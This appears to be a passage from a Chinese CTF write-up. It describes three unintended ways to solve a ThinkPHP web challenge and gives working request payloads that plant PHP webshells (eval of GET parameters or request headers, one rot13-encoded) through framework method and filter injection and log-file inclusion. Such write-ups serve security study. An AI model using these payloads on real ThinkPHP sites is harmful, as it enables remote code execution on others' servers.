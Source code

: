 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 非预期1

`_method=__construct&method=GET&server[]=1&filter[]=think\Build::module&get[]=index//../../public//?><?php eval($_GET[a]);?>`

做出来的队伍大多都是用的注释符来绕过语法错误: `index//../../public//?><?php eval($_GET[a]);?>` ，这种方法不会跨不存在的目录也就不会报 `warning` 错误，相比于预期更加简单了一些，当时并没有想到。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 非预期2

文件包含没修完全导致的使用php过滤器+rot13绕过语法错误。  
来自 `vidar-team` 的payload  
`b=../public/./<?cuc riny(trgnyyurnqref()["pzq"]);?>&_method=__construct&filter=think\Build::moudle&a=1&method=GET`

`b=php://filter/read=string.rot13/resource=./<?cuc riny(trgnyyurnqref()["pzq"]);?>/controller/Index.php&_method=__construct&filter=think\__include_file&a=1&method=GET`

### 非预期3

`_method=__construct&filter[]=json_decode&filter[]=get_object_vars&filter[]=think\Log::init&method=GET&get[]={"type":"File", "path":"/var/www/html/public/logs"}`

`0ops` 的师傅在 `think\Log::init` 找到了另一个利用  
传入了一个数组参数: `File` 和 `/var/www/html/public/logs`

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后在 `think\Log::init` 调用了 `new \think\log\driver\File()` 并传入了一个包含 `path` 值的数组参数，并赋值给静态成员属性 `self::$driver`

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在 `File` 的构造函数中覆盖掉了默认的 `path` 路径

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

最终调用 `thinkphp/library/think/log/driver/File.php` 的 `save` 方法写入log。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后调用 `think\Lang::load` 中的include包含即可

